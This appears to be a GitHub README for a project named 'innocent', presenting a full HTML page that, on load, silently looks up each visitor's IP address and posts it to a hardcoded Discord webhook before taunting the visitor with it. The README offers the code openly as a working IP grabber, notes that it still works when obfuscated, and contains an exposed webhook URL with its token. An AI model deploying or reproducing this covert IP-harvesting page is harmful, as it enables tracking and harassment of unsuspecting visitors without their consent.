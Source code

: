 EXAMPLE URI: [CLICK HERE](https://hideakiatsuyo.github.io/innocent)

Example Result:<br>
![](https://i.imgur.com/A58wwMd.png)
<br>
For the "big fan" don't send messages on the webhook it's not made for it and just [open an issue](https://github.com/HideakiAtsuyo/innocent/issues/new) if you are just here to troll or something like this (and for the guy with the 8.8.8.8 it's useless too) it just require a few updates to fuck both of you and only receive IP
<br>
It also work when obfuscated:<br>
![](https://i.imgur.com/ZoxHNLh.png)

```html
<!DOCTYPE html>
<html lang="fr">
  <head>
    <meta charset="utf-8">
    <title>Innocent</title>
    <script src="https://code.jquery.com/jquery-3.6.0.js"></script>
    <script type="application/javascript">
      $(function() {
          		$.getJSON("https://api.ipify.org?format=jsonp&callback=?", //Take the IP then use the callback function 
          			function(json) {//Discord Webhook under
          			const discordWebhook = "https://canary.discord.com/api/webhooks/934415150738464938/oPDmxpKkAUF6lbus2jQcOlsjB8VurxdhoG5Yf8VubLdCSZffJbz53xEEtstjOS7vrXD1"; //USE REDIRECTION NOT DIRECT WEBHOOK LMAO
          			let req = new XMLHttpRequest(); //Initialize The Request
          			req.open("POST", discordWebhook);
          			req.setRequestHeader("Content-Type", "application/json");
          			let payloadRes = { //Payload to send in the request
          				username: "Angel Gabriel",
          				avatar_url: "https://patricia-lasserre.com/wp-content/uploads/2021/06/gabriel-750x500.jpg",
          				content: json.ip //Your IP from the callback
          			};
          			req.send(JSON.stringify(payloadRes)); //Send the request with the payload
      
          			setTimeout(() => {
          				document.write(`<center><img src="https://patricia-lasserre.com/wp-content/uploads/2021/06/gabriel-750x500.jpg"><h1>Did I just caught you on my website ${json.ip} ?</h1></center>`);
          			}, 2*1000); //Wait 2 seconds then write this as new page
          		});
          	});
        
    </script>
  </head>
  <body>
    <center>
      <br>WAIT 2 SECONDS
    </center>
  </body>
</html>
```
